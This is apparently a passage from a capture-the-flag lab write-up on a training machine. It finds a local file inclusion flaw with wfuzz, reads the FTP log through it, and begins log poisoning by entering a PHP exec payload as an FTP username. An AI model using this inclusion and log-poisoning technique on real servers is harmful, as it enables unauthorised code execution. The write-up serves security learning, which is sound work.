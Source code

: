 The URL is `http://10.129.95.191/admin../admin_staging/index.php?page=dashboard.php`. This could be vulnerable to LFI. I used `wfuzz` to see what files existed on the page using the LFI wordlist. Ideally, we are looking for some type of configuration files.&#x20;

```
$ wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hl=367 http://10.129.95.191/admin../admin_staging/index.php?page=FUZZ  
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.95.191/admin../admin_staging/index.php?page=FUZZ
Total requests: 920

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000733:   200        413 L    1670 W     19803 Ch    "/var/log/vsftpd.log"       
000000734:   200        557 L    1379 W     174271 Ch   "/var/log/wtmp"
```

It seems that we have found 2 files, and both of which have different lengths, indicating that something actually appeared on the page. When we view the FTP log file using `curl`, we find a username for FTP

{% code overflow="wrap" %}
```
Thu Jul  8 17:30:53 2021 [pid 21011] FTP command: Client "::ffff:10.10.14.6", "USER pwnmeow"
Thu Jul  8 17:30:53 2021 [pid 21011] [pwnmeow] FTP response: Client "::ffff:10.10.14.6", "331 Please specify the password."
Thu Jul  8 17:31:01 2021 [pid 21011] [pwnmeow] FTP command: Client "::ffff:10.10.14.6", "PASS <password>"
```
{% endcode %}

The weird part was that there was no password in sight, so we couldn't do much here.

### FTP PHP Injection

Notice that we are able to write to the logs via the username logins, and the page is in PHP. There's a chance that we have to do PHP injection via the username parameter in FTP. This might work because the FTP logs are displayed on the page, whereas the rest of the files aren't.&#x20;

I logged in with a unique username

```
$ ftp 10.129.95.191                                                                
Connected to 10.129.95.191.
220 (vsFTPd 3.0.3)
Name (10.129.95.191:kali): <?php exec("/bin/bash -c 'ping -c 1 10.10.14.13'") ?>
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp>
```
